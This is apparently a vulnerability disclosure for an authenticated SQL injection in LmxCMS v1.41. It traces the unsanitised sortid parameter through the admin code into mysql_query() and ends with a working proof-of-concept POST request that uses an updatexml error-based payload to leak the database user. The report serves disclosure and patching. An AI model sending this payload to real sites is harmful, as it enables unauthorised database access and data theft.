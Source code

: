 # SQL Injection in LmxCMS (Authenticated)
**Version: LmxCMS v1.41**

**Google Dork: N/A**

**Date: 04/29/2025**

**Tested on: Windows 11, Apache 2.4, MySQL 5.7, PHP 5.5**

**Software Link: http://www.lmxcms.com/**

**Description:** A critical SQL injection vulnerability exists in LmxCMS v1.41, located in the manageZt() method within c\admin\ZtAction.class.php. The vulnerability arises because user-supplied sortid parameters are directly concatenated into SQL queries without proper sanitization or parameter binding. This flaw allows attackers to inject arbitrary SQL code, which can lead to sensitive data exposure, privilege escalation, or complete compromise of the database. Exploitation can be achieved by sending a specially crafted POST request, allowing attackers to retrieve sensitive information, manipulate the database, or execute arbitrary SQL commands.

# code analysis
**Entry Point:** The vulnerability starts in the manageZt method of ZtAction.class.php. This method passes the user-supplied parameters to the sort method in ZtModel.class.php, which serves as the entry point for the injection.

<img width="500" alt="1745927531096" src="https://github.com/user-attachments/assets/776d5002-4d25-4623-b4d7-3857ba256019" />

**User Input Handling:** In the sort method, the sortid parameter is directly taken from the user input and passed to the updateModel method in Model.class.php, without any validation or sanitization, allowing the user to craft a malicious SQL injection payload.

<img width="500" alt="1745927592479" src="https://github.com/user-attachments/assets/90d6dcbe-fb1e-4462-a552-f6ebe374de9f" />

**SQL Construction:** In the updateModel method, the sortid parameter is passed to the updateDB method in db.class.php. Within updateDB, the parameter is used to construct an SQL query through the $param['where'] variable, which is concatenated into the SQL query string without proper sanitization.

<img width="500" alt="1745927637701" src="https://github.com/user-attachments/assets/0db7fe93-3c55-4c89-9a08-255727828d04" />

**SQL Execution:** Finally, the constructed SQL query containing the unsanitized sortid parameter is executed by the mysql_query() function in the updateDB method. This allows attackers to inject arbitrary SQL commands, leading to a SQL injection attack.

<img width="500" alt="1745927664633" src="https://github.com/user-attachments/assets/b67fbc76-91cf-4f66-859c-452758f4c777" />


**Payload used:**
```
POST /admin.php?m=zt&a=manageZt HTTP/1.1
Host: www.lmx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://www.lmx.com/admin.php?m=login&a=login
Cookie: PHPSESSID=ldja45va9dd97u46jqvn7dni36
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 73

sortSub=1&sortid[]=1 and updatexml(1,concat(0x7e,(select user()),0x7e),1)
```

Example：
![image](https://github.com/user-attachments/assets/5a44c382-3977-48e8-9dbe-97f0d2d1069f)

![image](https://github.com/user-attachments/assets/e00a0481-8e34-4891-8f92-1076f4eae9ac)

![image](https://github.com/user-attachments/assets/deaa7641-ee3f-4838-b8a4-451cee5c6407)





